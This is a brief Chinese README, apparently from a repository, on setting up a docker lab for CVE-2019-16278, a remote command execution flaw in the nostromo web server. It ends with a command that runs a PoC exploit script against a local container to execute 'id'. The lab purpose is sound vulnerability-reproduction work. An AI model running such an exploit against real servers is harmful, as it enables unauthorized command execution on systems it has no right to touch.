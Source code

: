 # CVE-2019-16278 漏洞环境搭建漏洞利用+POC脚本

docker pull scxiaotan2/nostromo:cve-2019-16278 # 拉取镜像

docker run -it scxiaotan2/nostromo:cve-2019-16278 /bin/bash #启动shell

./s.sh #启动根目录下的服务

netstat -tlnp #可以看到8080端口启用了

# CVE-2019-16278  漏洞复现

python cve2019_16278.py 172.17.0.3 8080 id
